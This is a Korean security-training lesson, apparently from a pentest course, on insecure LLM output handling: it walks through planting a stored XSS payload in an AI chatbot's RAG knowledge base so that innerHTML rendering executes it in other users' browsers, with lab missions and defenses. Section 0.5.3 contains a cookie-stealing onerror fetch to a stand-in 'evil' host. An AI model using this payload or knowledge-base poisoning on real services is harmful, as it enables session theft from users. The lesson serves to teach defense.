



# ai-service-pentest W06 — 부적절한 출력 처리: LLM 응답 저장형 XSS (LLM02)

> **본 주차의 한 줄 요약**
>
> W01~W05 는 "정보가 새는" 방향(입력→유출)이었다. W06 은 **반대 방향 — LLM 의 출력이 위험한
> 코드가 되는** 문제(LLM02, 부적절한 출력 처리)다. AICompanion 의 채팅 화면은 챗봇 응답을
> **`innerHTML` 로 그대로 렌더**(V08)한다 — 즉 응답에 ``·`<script>` 가 섞이면 브라우저가
> 그것을 **텍스트가 아니라 실행 가능한 요소로** 그린다. 공격자는 KB 문서에 XSS 페이로드를 심어,
> 다른 사용자의 대화 응답에 그것이 렌더·실행되게 한다 — **저장형(stored) XSS**. 이번 주는
> **비콘(beacon)** 으로 실행을 증명한다: 응답에 `>` 가 렌더되면 브라우저가
> 자동으로 그 URL 을 요청(GET)하므로, 서버 접근 로그에 그 요청이 남는다 = **스크립트가 실제로
> 실행됐다는 증거.** 핵심 개념은 **LLM 출력은 사용자 입력만큼 신뢰할 수 없다** — 화면·다른
> 시스템에 넣기 전 반드시 **인코딩(이스케이프)** 해야 한다. (참고: ai.el34.lab 의 WAF 는
> **DetectionOnly** — 탐지 로그는 남기되 페이로드를 차단하지 않고 모델·화면까지 전달한다. 그래서
> XSS 페이로드가 그대로 통해, "출력 처리 취약" 을 온전히 시연할 수 있다.)

---

## ⚠️ 사전 경고 — 인가된 격리 훈련 대상에서만

이 트랙의 모든 공격은 **인가된 격리 훈련 서비스 AICompanion(`ai.el34.lab`)** 만 대상으로 한다.
실제 서비스에 XSS 를 시도하는 것은 불법이다. 공격을 배우는 이유는 방어를 위해서다.

---

## 이 주차의 시선 — 입력만 조심하면 될까

LLM 보안은 흔히 "입력(프롬프트 인젝션)만" 조심하기 쉽다. W06 은 **출력** 을 본다. LLM 이 만든
텍스트가 그대로 화면·이메일·DB·다른 API 로 흘러갈 때, 그 안의 HTML·스크립트·명령이 실행되면?
입력과 출력은 **양쪽 다** 공격 표면이다.

> **이 주차의 시선** — LLM 출력을 "믿을 수 있는 결과" 가 아니라 **신뢰할 수 없는 입력** 으로
> 취급한다. 넣기 전에 인코딩·검증한다.

---

## 학습 목표

1. **부적절한 출력 처리(LLM02)** 와 `innerHTML` vs `textContent` 의 차이를 설명한다.
2. 로그인 후 챗 출력 렌더를 확인한다(마커 `CHAT_RENDERED`).
3. KB 에 **XSS 비콘 페이로드** 를 심는다(마커 `XSS_PLANTED`).
4. 응답 렌더 시 **비콘이 실행** 됨을 증명하고(마커 `XSS_FIRED`), 근본 원인·방어를 도출한다(마커
   `OUTPUT_ANALYZED`).
5. 발견을 소견으로 종합한다(마커 `Assessment`).

---

## 0. 용어 해설 (출력 처리)

| 용어 | 영문 | 뜻 | 비유 |
|------|------|----|------|
| **부적절한 출력 처리** | Insecure Output Handling (LLM02) | LLM 출력을 검증·인코딩 없이 사용 | 검사 없이 소포를 그대로 배달 |
| **innerHTML** | — | 문자열을 HTML 로 해석해 렌더(위험) | 글자를 "지시서" 로 읽음 |
| **textContent** | — | 문자열을 순수 텍스트로 렌더(안전) | 글자를 "글자" 로만 봄 |
| **저장형 XSS** | Stored XSS | 저장소(KB)에 심어 다른 사용자에 실행 | 벽에 붙인 몰래 실행 코드 |
| **비콘** | Beacon | 실행 시 서버로 신호를 보내는 추적 요청 | 발신 확인 도장 |
| **출력 인코딩** | Output Encoding | 특수문자를 무해한 텍스트로 변환 | `<` → `&lt;` |
| **CSP** | Content-Security-Policy | 스크립트·로드 출처를 제한하는 헤더 | 실행 화이트리스트 |
| **sanitizer** | Sanitizer | 위험 태그를 걸러 안전 HTML 만 허용 | 검열·정제 |
| **DetectionOnly** | — | WAF 가 탐지만 하고 차단하지 않음 | 감시 카메라(문은 안 잠금) |

> **헷갈리기 쉬운 한 쌍 — innerHTML vs textContent.** 같은 문자열 `""` 를
> 넣어도, `innerHTML` 은 **실제 이미지 요소(스크립트 실행)** 로, `textContent` 는 ``(글자
> 그대로)로 그린다. 취약의 핵심은 개발자가 **위험한 innerHTML** 을 골랐다는 것이다.

---

## 0.5 핵심 개념

### 0.5.1 출력이 코드가 되는 순간 — innerHTML 싱크

AICompanion 채팅 화면의 렌더 코드(요지):

AICompanion 은 챗봇 응답을 `d.innerHTML = text` 로 넣는다(V08). 그래서 응답 문자열 속 ``·
`<script>` 가 **실제 HTML 요소로 그려지고 실행** 된다. 응답이 "그냥 텍스트" 라는 가정이 깨지는
지점이다.

### 0.5.2 저장형 XSS — KB 를 통해 다른 사용자를 친다

챗봇 응답은 RAG 가 검색한 KB 문서를 반영한다. 그래서 **KB 문서에 XSS 를 심으면**, 그 문서가
검색될 때 응답에 실려 innerHTML 로 렌더·실행된다. W04 의 KB 오염과 같은 통로(무인증 쓰기)를
쓰되, 이번엔 심는 것이 "지시" 가 아니라 **"실행 코드"** 다. 한 번 심으면 그 문서를 검색하는
**모든 사용자** 의 브라우저에서 실행된다(저장형·지속형).

### 0.5.3 비콘으로 실행을 증명한다

XSS 가 "실제로 실행됐다" 를 어떻게 증명할까? **비콘** 을 쓴다. `>` 는
화면에 렌더되는 순간 브라우저가 그 URL 을 **자동으로 요청** 한다(이미지를 불러오려고). 그 요청이
서버 접근 로그에 `GET /kb?xss=<ME>` 로 남으면, **피해자 브라우저에서 내 코드가 실행됐다** 는
부정할 수 없는 증거다. 비콘 자리에 `onerror="fetch('http://evil/'+document.cookie)"` 를 넣으면
**쿠키·세션 탈취** 가 된다 — 계정 장악으로 직결된다.

### 0.5.4 WAF 가 있어도 근본은 앱 — 그리고 여긴 DetectionOnly

ai.el34.lab 은 앞단에 WAF(ModSec)가 있지만 **DetectionOnly** 로 설정돼 있다 — XSS·SQLi 같은
페이로드를 **탐지 로그** 로 남기되 **차단하지는 않고** 모델·화면까지 전달한다(그래야 "출력 처리
취약" 을 온전히 시연할 수 있다). 설령 WAF 가 차단 모드였더라도, 그것은 **한 겹의 완화** 일 뿐:

- **싱크가 그대로 남아 있다** — innerHTML 사용 자체가 버그다. WAF 규칙이 하나라도 우회되면 곧
  완전한 XSS 다.
- **근본은 앱이 출력을 인코딩** 하는 것 — textContent 또는 이스케이프. 그러면 `` 조차 글자로만
  보여 XSS 가 원천 차단된다.

즉 방어를 WAF 에 의존하면 안 되고, **출력 인코딩** 이 근본이다.

### 0.5.5 이번 주 채점 — KB 문서 + 비콘 로그

채점은 (1) 내 XSS 문서가 KB(rag_docs)에 들어갔는지, (2) 브라우저가 응답을 렌더하며 **비콘이
실행** 돼 `/kb?xss=<ME>` 요청이 접근 로그에 남았는지 확인한다. 로그의 그 한 줄이 XSS 실행 증거다.

---

## 1. 부적절한 출력 처리 상세

### 1.1 한 줄 정의와 왜 위험한가

**한 줄 정의**: 부적절한 출력 처리는 LLM 의 출력을 검증·인코딩 없이 화면·시스템에 사용해, 그
안의 HTML·스크립트·명령이 실행되는 취약이다.

**왜 위험한가**: 피해자의 브라우저·계정에서 공격자 코드가 실행되거나(XSS→쿠키/세션 탈취), 다른
시스템에 명령이 전달된다. LLM 출력을 "안전한 결과" 로 오해한 데서 생긴다.

### 1.2 AICompanion 에서 어떻게 — V08 innerHTML

렌더 코드에 `// V08: assistant 응답을 raw HTML 로 렌더 (insecure output handling)` 주석과 함께
`d.innerHTML = text` 가 있다. 사용자 메시지는 `textContent`(안전)로, **챗봇 응답만 innerHTML**
(위험)로 넣는다 — "챗봇 응답은 믿을 수 있다" 는 잘못된 가정이다.

### 1.3 공격 시나리오 — 저장형 XSS 로 세션 탈취

공격자가 KB 에 `` 를 심는다.
피해자가 관련 질문을 하면, 챗봇 응답에 이 코드가 렌더되며 **피해자의 쿠키가 공격자 서버로 전송**
된다 → 세션 하이재킹·계정 장악. 실습에서는 무해한 비콘(`>`)으로 이 실행을
안전하게 증명한다.

### 1.4 입력 취약 vs 출력 취약 — 한 쌍

| 구분 | 입력 취약(프롬프트 인젝션 LLM01) | 출력 취약(부적절한 출력 처리 LLM02) |
|------|----------------------------------|-------------------------------------|
| 방향 | 사용자→LLM (LLM 을 조종) | LLM→시스템/화면 (출력이 코드가 됨) |
| 피해 | 비밀 유출·오작동 | XSS·세션 탈취·명령 실행 |
| 근본 원인 | 지시/데이터 미구분 | 출력을 인코딩 없이 사용 |
| 방어 | 완화·권한 최소화 | **출력 인코딩·CSP·sanitizer** |
| 공통 | LLM 이 다루는 텍스트를 **신뢰하지 말라** | 동일 |

핵심: 입력과 출력은 **한 쌍** 이다. LLM 앱을 지키려면 양쪽 다 "신뢰할 수 없는 텍스트" 로 다뤄야
한다.

---

## 2. 실습 안내 (총 5 미션) — 브라우저로 공격, KB/로그로 확인

공격은 **브라우저** 로 `http://ai.el34.lab`(로그인 `admin/admin`), 문서 심기는 **F12 콘솔
fetch**, 확인만 el34 호스트(`ssh ccc@{{TARGET_IP}}`)에서 명령 한 줄씩. `[me:<ME>]`/`xss=<ME>`
토큰을 붙인다.

### 미션 1 — 로그인 & 출력 렌더 확인 → `CHAT_RENDERED`
> 응답이 innerHTML 로 렌더됨을 이해한다. 로그인 후 정상 대화 → 내 대화가 DB 에 있으면 통과.

### 미션 2 — XSS 비콘 심기 → `XSS_PLANTED`
> F12 콘솔로 `>` 문서를 rag/add. rag_docs 에 있으면 통과.

### 미션 3 — XSS 발동(비콘 실행) → `XSS_FIRED`
> 질의로 응답에 페이로드 렌더 → 브라우저가 `/kb?xss=<ME>` 자동 요청 → 접근 로그에 남으면 통과.
> **이 로그 한 줄이 XSS 실제 실행 증거.**

### 미션 4 — 근본 원인·방어 → `OUTPUT_ANALYZED`
> innerHTML·LLM 출력 불신, 방어(출력 인코딩·CSP·sanitizer·수집 검증)를 노트에.

### 미션 5 — 종합 소견 → `Assessment`
> innerHTML·저장형 XSS·방어를 첫 줄 `Assessment` 로.

---

## 3. 방어 (Blue) 관점

- **출력 인코딩(근본)** — `textContent` 사용 또는 `<`·`>`·`&` 이스케이프. HTML 을 글자로 취급.
- **CSP** — 인라인 스크립트·외부 로드를 헤더로 차단(XSS 발동 자체를 억제).
- **안전한 sanitizer** — HTML 서식이 꼭 필요하면 allowlist 기반 정제(DOMPurify 등).
- **KB 수집 검증** — 저장 단계에서 스크립트 페이로드 차단(저장형 XSS 원천 차단).
- **LLM 출력 검증** — 출력을 다른 시스템(SQL·쉘·API)에 넣기 전 검증·파라미터화.

---

## 4. 핵심 정리 (1줄씩)

- 부적절한 출력 처리(LLM02)는 **LLM 출력을 인코딩 없이 화면·시스템에 사용** 하는 취약이다.
- AICompanion 은 응답을 `innerHTML`(V08)로 렌더 → 응답 속 HTML·스크립트가 실행된다.
- KB 에 심은 XSS 는 검색될 때마다 렌더·실행 — **저장형(지속형) XSS.**
- **비콘 로그 한 줄이 XSS 실제 실행 증거** — 쿠키/세션 탈취로 확장된다.
- 근본 방어는 **출력 인코딩(textContent/이스케이프) + CSP + sanitizer.** WAF(DetectionOnly)는 완화조차 아니다.

---

## 5. 다음 주차 (W07) 예고 — 과도한 에이전시·도구 남용 (LLM08)

W06 까지는 "텍스트(입력·출력)" 의 문제였다. W07 은 LLM 이 **도구(툴)를 호출** 하며 실제 행동을
하는 **과도한 에이전시(LLM08)** 를 다룬다. AICompanion 에는 인증 없이 **임의 코드·OS 명령을 실행**
하는 도구 엔드포인트가 있다 — LLM 에 과한 권한·도구를 주면 "말" 이 "행동" 이 되어 서버가 장악된다.

